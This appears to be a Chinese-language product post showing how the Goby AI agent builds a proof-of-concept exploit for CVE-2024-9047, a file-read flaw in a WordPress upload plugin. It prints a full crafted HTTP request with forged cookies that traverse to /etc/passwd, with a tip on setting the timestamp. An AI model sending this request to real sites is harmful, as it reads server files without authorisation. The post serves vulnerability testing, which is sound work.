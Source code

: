 ## GobyAI智能生成EXP：CVE-2024-9047 WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞



摘要：本片描述如何使用Goby AI 智能输出9.8高危漏洞PoC/EXP：“WordPress File Upload 插件 /wfu_file_downloader.php 任意文件读取漏洞(CVE-2024-9047)”



可以先查看此漏洞的公开参考详情：

https://mp.weixin.qq.com/s/u8Ik40iBuxgKfH7WDrzijQ

查看漏洞详情，我们可以了解到，此漏洞是通过伪造请求中的cookie参数（文件名称及时间戳），利用fopen函数实现任意文件读取。

智能体首先解析出的文本和图片内容，提取漏洞背景描述、请求包和响应包等关键信息，提取出漏洞类型为文件读取，分配文件读取智能体对请求包及响应包进行分析。

直接输入公开参考详情链接，GobyAI的智能输出结果如下：

# 漏洞信息

智能体提取文本中的 产品名、漏洞路径、漏洞类型、CVE编号等信息，自动以 “产品名称+漏洞路径+漏洞类型+(CVE编号)"的格式生成漏洞名称

1.智能生成漏洞名称；

2.提取FOFA指纹信息；

3.根据页面内容智能分析漏洞描述、影响版本、解决方案、cvss评分等信息。



## 扫描测试

自动构造请求包：

（需要注意的是：Payload中请求包中的时间戳需手动修改为精准在分钟内的任意时间戳即可，可以直接替换为：1735095641153454600）

`GET /wp-content/plugins/wp-file-upload/wfu_file_downloader.php?file=pQ1DyzbQp5hBxQpW&ticket=Hw8h7dBmxROx27ZZ&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce HTTP/1.1`
`Host: 127.0.0.1`
`Upgrade-Insecure-Requests: 1`
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9`
`Accept-Encoding: gzip, deflate`
`Accept-Language: zh-CN,zh;q=0.9`
`Cookie: wp_wpfileupload_939a4dc9e3d96a97c2dd1bdcbeab52ce=cfyMMnYQqNBbcBNMLTCDnE7ezEAdzLC3; wfu_storage_pQ1DyzbQp5hBxQpW=/../../../../../etc/passwd[[name]]; wfu_download_ticket_Hw8h7dBmxROx27ZZ=时间戳; wfu_ABSPATH=/;` 
`Connection: close`


![](https://s3.bmp.ovh/imgs/2024/12/25/78d083a586adb919.png)



自动填写响应包：

提取特征信息，若响应包中存在特征则证明漏洞存在。：

![](https://s3.bmp.ovh/imgs/2024/12/25/1cdc72f07dae07f6.png)


## 利用测试

利用输入（EXP Params）：

智能体提取的文件访问路径将自动填入 EXP 参数中。

验证方式支持两种选择：

● 默认方式（default)，直接使用文章中已有的访问路径；

● 用户自定义方式(custom)，允许用户指定输出的访问路径以满足特定需求

![](https://s3.bmp.ovh/imgs/2024/12/25/33bb6186e75bb821.png)

同时，智能体会将访问文件路径替换为变量，并填充至 EXP Params 中，方便用户查看和自定义输入访问路径。

![](https://s3.bmp.ovh/imgs/2024/12/25/9dbf9000959d849d.png)



利用输出（output）：

智能体通过正则表达式，提取响应包中lastbody中的所有内容进行输出。

![](https://s3.bmp.ovh/imgs/2024/12/25/be9cb31fea697a3e.png)


# 实战检验流程

输入靶场目标进行扫描，确认PoC扫描测试准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/0ada57862db88e4d.png)

点击验证，检测EXP输出信息的准确性：√

![](https://s3.bmp.ovh/imgs/2024/12/25/d925d52f04654a0d.png)
